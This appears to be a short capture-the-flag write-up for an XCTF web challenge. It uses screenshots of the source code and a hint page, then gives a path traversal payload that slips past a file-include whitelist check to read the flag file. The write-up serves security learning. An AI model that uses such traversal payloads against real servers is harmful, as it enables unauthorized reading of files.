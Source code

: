 # Challenge: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5442&page=1

. view source

<img width="782" alt="Not Secure  111 200 241 24465197" src="https://user-images.githubusercontent.com/48151790/126885857-2fb24110-ba27-4335-a642-de685a475239.png">

. source.php

<img width="664" alt="Not Secure  111 200 241 24465197source php" src="https://user-images.githubusercontent.com/48151790/126885863-50e1e428-daeb-41e4-84a6-7f463e45d264.png">

. hint.php

<img width="596" alt="Not Secure  111 200 241 24465197hint php" src="https://user-images.githubusercontent.com/48151790/126885866-4e35f948-c26d-4dea-ab1d-cbd9d8b8a0df.png">

=> Maybe Path traversal???

=> ../../ffffllllaaaagggg

=> bypass: ?file=source.php?%3F../../../../../ffffllllaaaagggg

<img width="810" alt="Screen Shot 2021-07-22 at 21 31 39" src="https://user-images.githubusercontent.com/48151790/126885891-5fdf872b-0851-49ca-bc14-f7115d91a384.png">
